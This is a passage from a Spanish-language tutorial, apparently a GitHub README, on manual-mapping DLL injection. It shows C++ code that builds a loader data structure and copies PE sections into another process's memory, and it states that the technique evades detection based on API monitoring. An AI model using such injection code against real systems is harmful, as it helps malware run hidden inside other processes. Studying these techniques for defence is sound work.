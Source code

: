 A diferencia de `LoadLibrary`, que deja que el sistema operativo decida dónde cargar la DLL, aquí tenemos control total sobre la ubicación en memoria. Esto nos permite evitar detecciones basadas en monitoreo de APIs estándar.

![image](https://github.com/user-attachments/assets/ce90b027-4bd4-4fcf-9d1a-90e15a94d0db)

## 4. Estructura de datos MANUAL_MAPPING_DATA

```cpp
struct MANUAL_MAPPING_DATA
{
    LPVOID pLoadLibraryA;
    LPVOID pGetProcAddress;
    LPVOID pbase;
};

MANUAL_MAPPING_DATA data{ 0 };
data.pLoadLibraryA = LoadLibraryA;
data.pGetProcAddress = GetProcAddress;
data.pbase = pTargetBase;
```

Esta estructura es fundamental para la técnica:
1. Contiene punteros a las funciones `LoadLibraryA` y `GetProcAddress`, que son necesarias para resolver importaciones.
2. Incluye la dirección base donde hemos asignado memoria en el proceso objetivo.

Esta información se pasará al shellcode para que pueda completar el proceso de carga dentro del proceso objetivo.

## 5. Copiado de secciones PE

```cpp
PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pNTHeader);
for (UINT i = 0; i < pNTHeader->FileHeader.NumberOfSections; i++, pSectionHeader++)
{
    if (pSectionHeader->SizeOfRawData)
    {
        if (!WriteProcessMemory(hProcess, 
                               reinterpret_cast<BYTE*>(pTargetBase) + pSectionHeader->VirtualAddress,
                               pSrcData + pSectionHeader->PointerToRawData,
                               pSectionHeader->SizeOfRawData, nullptr))
        {
            cout << "Error: No se pudo escribir la sección " << i << endl;
            VirtualFreeEx(hProcess, pTargetBase, 0, MEM_RELEASE);
            delete[] pSrcData;
            return false;
        }
    }
}
```

